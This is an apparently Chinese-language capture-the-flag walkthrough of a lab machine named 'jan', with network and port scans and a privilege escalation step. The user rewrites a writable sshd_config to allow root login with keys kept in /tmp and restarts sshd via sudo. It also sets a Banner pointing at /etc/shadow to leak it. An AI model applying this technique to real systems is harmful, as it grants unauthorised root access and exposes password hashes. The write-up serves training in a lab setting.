## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.56.110
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:12       (Unknown: locally administered)
192.168.56.100  08:00:27:9b:f5:de       (Unknown)
192.168.56.122  08:00:27:26:6a:87       (Unknown)

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.914 seconds (133.75 hosts/sec). 3 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.56.122 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 01:23 EST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.122
Host is up (0.0027s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.9 (protocol 2.0)
| ssh-hostkey: 
|   256 2c:0b:57:a2:b3:e2:0f:6a:c0:61:f2:b7:1f:56:b4:42 (ECDSA)
|_  256 45:97:b0:2b:48:9b:4a:36:8e:db:44:bd:3f:15:cf:32 (ED25519)
8080/tcp open  http-proxy
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Fri, 31 Jan 2025 06:24:48 GMT
|     Content-Length: 45
|     Content-Type: text/plain; charset=utf-8
|     Welcome to our Public Server. Maybe Internal.
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Fri, 31 Jan 2025 06:24:47 GMT
|     Content-Length: 45
|     Content-Type: text/plain; charset=utf-8
|_    Welcome to our Public Server. Maybe Internal.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=1/31%Time=679C6CB2%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,A2,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Fri,\x2031\x20Jan\x2
SF:02025\x2006:24:47\x20GMT\r\nContent-Length:\x2045\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\n\r\nWelcome\x20to\x20our\x20Public\x20Se
SF:rver\.\x20Maybe\x20Internal\.")%r(HTTPOptions,A2,"HTTP/1\.0\x20200\x20O
SF:K\r\nDate:\x20Fri,\x2031\x20Jan\x202025\x2006:24:48\x20GMT\r\nContent-L
SF:ength:\x2045\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n\r\nWe
SF:lcome\x20to\x20our\x20Public\x20Server\.\x20Maybe\x20Internal\.")%r(RTS
SF:PRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,A2,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Fr
SF:i,\x2031\x20Jan\x202025\x2006:24:48\x20GMT\r\nContent-Length:\x2045\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\n\r\nWelcome\x20to\x20o
SF:ur\x20Public\x20Server\.\x20Maybe\x20Internal\.")%r(Socks5,67,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=u
SF:tf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(GenericLi
SF:nes,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request");
MAC Address: 08:00:27:26:6A:87 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.42 seconds
```

## 获取webshell
  
  
  
  


## 提权
  

>直接ssh登录就好了
>

```
jan:~$ sudo -l
Matching Defaults entries for ssh on jan:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ssh:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ssh may run the following commands on jan:
    (root) NOPASSWD: /sbin/service sshd restart
```

  

  
  
  

>存在2个文件可以写
>


```
jan:/etc/ssh$ cat ssh_config
#       $OpenBSD: ssh_config,v 1.36 2023/08/02 23:04:38 djm Exp $

# This is the ssh client system-wide configuration file.  See
# ssh_config(5) for more information.  This file provides defaults for
# users, and the values can be changed in per-user configuration files
# or on the command line.

# Configuration data is parsed as follows:
#  1. command line options
#  2. user-specific file
#  3. system-wide file
# Any configuration value is only changed the first time it is set.
# Thus, host-specific definitions should be at the beginning of the
# configuration file, and defaults at the end.

# Site-wide defaults for some commonly used options.  For a comprehensive
# list of available options, their meanings and defaults, please see the
# ssh_config(5) man page.

# Include configuration snippets before processing this file to allow the
# snippets to override directives set in this file.
Include /etc/ssh/ssh_config.d/*.conf
Banner /etc/shadow
# Host *
#   ForwardAgent no
#   ForwardX11 no
#   PasswordAuthentication yes
#   HostbasedAuthentication no
#   GSSAPIAuthentication no
#   GSSAPIDelegateCredentials no
#   BatchMode no
#   CheckHostIP no
#   AddressFamily any
#   ConnectTimeout 0
#   StrictHostKeyChecking ask
#   IdentityFile ~/.ssh/id_rsa
#   IdentityFile ~/.ssh/id_dsa
#   IdentityFile ~/.ssh/id_ecdsa
#   IdentityFile ~/.ssh/id_ed25519
#   Port 22
#   Ciphers aes128-ctr,aes192-ctr,aes256-ctr,aes128-cbc,3des-cbc
#   MACs hmac-md5,hmac-sha1,umac-64@openssh.com
#   EscapeChar ~
#   Tunnel no
#   TunnelDevice any:any
#   PermitLocalCommand no
#   VisualHostKey no
#   ProxyCommand ssh -q -W %h:%p gateway.example.com
#   RekeyLimit 1G 1h
#   UserKnownHostsFile ~/.ssh/known_hosts.d/%k
jan:/etc/ssh$ cat sshd_config
#       $OpenBSD: sshd_config,v 1.104 2021/07/02 05:11:21 dtucker Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

# Include configuration snippets before processing this file to allow the
# snippets to override directives set in this file.
Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
#LogLevel INFO

# Authentication:

#LoginGraceTime 2m
PermitRootLogin prohibit-password
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

#PubkeyAuthentication yes

# The default is to check both .ssh/authorized_keys and .ssh/authorized_keys2
# but this is overridden so installations will only check .ssh/authorized_keys
AuthorizedKeysFile      .ssh/authorized_keys

#AuthorizedPrincipalsFile none

#AuthorizedKeysCommand none
#AuthorizedKeysCommandUser nobody

# For this to work you will also need host keys in /etc/ssh/ssh_known_hosts
#HostbasedAuthentication no
# Change to yes if you don't trust ~/.ssh/known_hosts for
# HostbasedAuthentication
#IgnoreUserKnownHosts no
# Don't read the user's ~/.rhosts and ~/.shosts files
#IgnoreRhosts yes

# To disable tunneled clear text passwords, change to no here!
#PasswordAuthentication yes
#PermitEmptyPasswords no

# Change to no to disable s/key passwords
#KbdInteractiveAuthentication yes

# Kerberos options
#KerberosAuthentication no
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no

# GSSAPI options
#GSSAPIAuthentication no
#GSSAPICleanupCredentials yes

# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the KbdInteractiveAuthentication and
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication via KbdInteractiveAuthentication may bypass
# the setting of "PermitRootLogin prohibit-password".
# If you just want the PAM account and session checks to run without
# PAM authentication, then enable this but set PasswordAuthentication
# and KbdInteractiveAuthentication to 'no'.
#UsePAM no

#AllowAgentForwarding yes
# Feel free to re-enable these if your use case requires them.
AllowTcpForwarding no
GatewayPorts no
X11Forwarding no
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
#PrintMotd yes
#PrintLastLog yes
#TCPKeepAlive yes
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# override default of no subsystems
Subsystem       sftp    internal-sftp

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
jan:/etc/ssh$ 
```
  

  

  


```
jan:/tmp/.ssh$ cat /etc/ssh/sshd_config
#       $OpenBSD: sshd_config,v 1.104 2021/07/02 05:11:21 dtucker Exp $

# This is the sshd server system-wide configuration file.  See
# sshd_config(5) for more information.

# This sshd was compiled with PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# The strategy used for options in the default sshd_config shipped with
# OpenSSH is to specify options with their default value where
# possible, but leave them commented.  Uncommented options override the
# default value.

# Include configuration snippets before processing this file to allow the
# snippets to override directives set in this file.
Include /etc/ssh/ssh_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key

# Ciphers and keying
#RekeyLimit default none

# Logging
#SyslogFacility AUTH
#LogLevel INFO

# Authentication:

#LoginGraceTime 2m
PermitRootLogin yes
StrictModes no
#MaxAuthTries 6
#MaxSessions 10

PubkeyAuthentication yes

# The default is to check both .ssh/authorized_keys and .ssh/authorized_keys2
# but this is overridden so installations will only check .ssh/authorized_keys
AuthorizedKeysFile      /tmp/.ssh/authorized_keys

#AuthorizedPrincipalsFile none

AuthorizedKeysCommand /home/ssh/global_authorized_keys
AuthorizedKeysCommandUser root

# For this to work you will also need host keys in /etc/ssh/ssh_known_hosts
#HostbasedAuthentication no
# Change to yes if you don't trust ~/.ssh/known_hosts for
# HostbasedAuthentication
#IgnoreUserKnownHosts no
# Don't read the user's ~/.rhosts and ~/.shosts files
#IgnoreRhosts yes

# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
#PermitEmptyPasswords no

# Change to no to disable s/key passwords
#KbdInteractiveAuthentication yes

# Kerberos options
#KerberosAuthentication no
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes
#KerberosGetAFSToken no

# GSSAPI options
#GSSAPIAuthentication no
#GSSAPICleanupCredentials yes

# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the KbdInteractiveAuthentication and
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication via KbdInteractiveAuthentication may bypass
# the setting of "PermitRootLogin prohibit-password".
# If you just want the PAM account and session checks to run without
# PAM authentication, then enable this but set PasswordAuthentication
# and KbdInteractiveAuthentication to 'no'.
#UsePAM no

#AllowAgentForwarding yes
# Feel free to re-enable these if your use case requires them.
AllowTcpForwarding no
GatewayPorts no
X11Forwarding no
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
#PrintMotd yes
#PrintLastLog yes
#TCPKeepAlive yes
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# override default of no subsystems
Subsystem       sftp    internal-sftp

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
```

  


>userflag:HMVSSWYMCNFIBDAFMTHFK
>
>rootflag:HMV2PRMTERWTFUDNGMBG
>